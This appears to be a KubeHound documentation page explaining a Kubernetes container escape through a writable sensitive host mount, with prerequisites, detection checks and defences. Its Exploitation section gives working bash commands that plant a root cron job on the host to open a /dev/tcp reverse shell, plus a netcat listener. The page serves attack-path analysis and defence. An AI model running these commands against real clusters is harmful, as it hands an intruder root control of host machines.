 ```yaml
---
title: EXPLOIT_HOST_WRITE
---
```


<!--
id: EXPLOIT_HOST_WRITE
name: "Container escape: Write to sensitive host mount"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# EXPLOIT_HOST_WRITE

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Exploit an arbitrary write from a sensitive host path mounted into the container to gain execution on the host.

## Details

If a sensitive host directory is mounted in a container with write permissions there are a huge variety of techniques to achieve execution within a container. Given the array of techniques available we choose to assume that any writeable mount in a container is exploitable unless it corresponds to an entry in the ["known-good" list](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/exploit_host_write.go#:~:text=SafeWriteMountList) of mounts. For illustration purposes we will consider an escape to host via creating a cron job to launch a reverse shell as the host's superuser if the host `/etc` directory is mounted with write permissions.

## Prerequisites

Execution within a container with a sensitive host directory mounted with write permissions.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/EXPLOIT_HOST_WRITE.yaml).

## Checks

Check for interesting mounted volumes in the container as decribed in [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks)

## Exploitation

Assuming the `/etc/cron.d` directory or any parent is mounted with write access, we can achieve execution on the host as follows. First, resolve the container ip address:

```bash
CONTAINER_ADDRESS=$(ifconfig eth0  | grep inet | cut -d: -f2 | awk '{ print $2}')
```

Then, create a cronjob to trigger a reverse shell connection from the host to our container:

```bash
echo -n "* * * * * root /bin/bash -c '/bin/bash -c echo \"\"; echo \"hello from host! " > /host-etc/cron.d/breakout
echo -n "$" >> /host-etc/cron.d/breakout
echo -n "(hostname) " >> /host-etc/cron.d/breakout
echo -n "$" >> /host-etc/cron.d/breakout
echo "(id)\" >& /dev/tcp/${CONTAINER_ADDRESS}/1337 0>&1'" >> /host-etc/cron.d/breakout
netcat -l -p 1337 2>&1
```

## Defences

### Monitoring

+ Leverage cloud workload security solutions to monitor for malicious activity on the host

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/` or other sensitive locations.

### Least Privilege

Avoid running containers as the `root` user. Enforce running as an unprivileged user account using the `runAsNonRoot` setting inside `securityContext` (or explicitly setting `runAsUser` to an unprivileged user). Additionally, ensure that `allowPrivilegeEscalation: false` is set in `securityContext` to prevent a container running as an unprivileged user from being able to escalate to running as the `root` user.

## Calculation

+ [ExploitHostWrite](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/exploit_host_write.go)

## References:

+ [Bad Pods: Kubernetes Pod Privilege Escalation](https://bishopfox.com/blog/kubernetes-pod-privilege-escalation)
+ [7 Ways to Escape a Container](https://www.panoptica.app/research/7-ways-to-escape-a-container)
+ [Atomic Red Team T1611](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1611/T1611.md)

